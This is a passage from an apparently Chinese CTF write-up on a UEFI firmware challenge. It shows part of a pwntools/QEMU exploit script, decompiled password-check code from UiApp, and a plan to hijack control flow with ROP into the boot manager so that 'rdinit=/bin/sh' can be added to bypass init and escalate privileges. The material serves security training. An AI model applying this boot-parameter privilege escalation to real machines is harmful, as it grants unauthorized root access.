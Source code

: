 ```python
        "-m",
        "64M",
        "-drive",
        "if=pflash,format=raw,file=" + fname,
        "-drive",
        "file=fat:rw:contents,format=raw",
        "-net",
        "none",
        "-nographic",
        "-s",
    ],
    env={},
)


def enterUiApp():
    rn(1)
    s(b"\x1b")
    s(b"\x1b")
    s(b"\x1b")
    s(b"\x1b")


enterUiApp()

ia()
```

到了这一步，这道题已经解决大半，接下来就回到了我们最熟悉的 ROP 环节，但是应该把控制流劫持到什么地方呢？毕竟这里没有机会去 `system("/bin/sh")` 了。

### Ret2Boot-Manager

不妨考虑这个 UiApp，它是一个密码校验程序，那假如密码正确会发生什么呢？没错，就是回到 bios 的 ui 界面中！我们的目标就是回去修改 boot 启动参数加上 `rdinit=/bin/sh` 绕开 init 脚本实现提权。

所以回到 `ModuleEntryPoint` 函数，发现如下分支判断：

```c
if ( (unsigned __int8)enterPassword() )
  {
    if ( !byte_1BA40 )
    {
      if ( (*(__int64 (__fastcall **)(_QWORD, void *, __int64 *))(qword_1BB58 + 152))(
             *(_QWORD *)(qword_1BB50 + 56),
             &unk_1B880,
             &v171) < 0 )
        v171 = 0i64;
      if ( (*(__int64 (__fastcall **)(_QWORD, void *, unsigned __int64 *))(qword_1BB58 + 152))(
             *(_QWORD *)(qword_1BB50 + 56),
             &unk_1B870,
             &v172) < 0 )
        v172 = 0i64;
      if ( v171 )
```
